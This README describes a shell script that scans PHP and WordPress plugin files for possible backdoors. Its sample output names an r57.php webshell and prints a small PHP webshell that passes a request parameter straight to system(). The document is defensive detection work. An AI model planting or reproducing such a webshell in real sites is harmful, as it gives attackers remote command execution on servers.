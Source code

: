 Description:

Simple script for detect possible backdoors in files PHP. (Good for the Wordpress PHP files.)


Usage:

$ ./findbackdoor.sh 

 Opção Inválida!

 Use: ./findbackdoor.sh <diretorio para o scan> <1 ou 2>
  1 = WebShells
  2 = Functions

$ ./findbackdoor.sh /home/espreto/Test/Plugin_WP/ 1

[+] Possible webshell found! \n
/home/espreto/Test/Plugin_WP/example/r57.php

$ ./findbackdoor.sh /home/espreto/Test/Plugins_WP/ 2

[+] Possible danger function!\n
/home/espreto/Test/Plugins_WP/i.php

1-<?php
2-if(isset($_REQUEST[‘cmd’])){
3-        echo "<pre>";
4-        $cmd = ($_REQUEST[‘cmd’]);
5:        system($cmd);
6-        echo "</pre>";
7-        die;
8-}
9-?>

$


TODO:

Missing some features, but it's a start. 
Please PR me. ;)


[]s

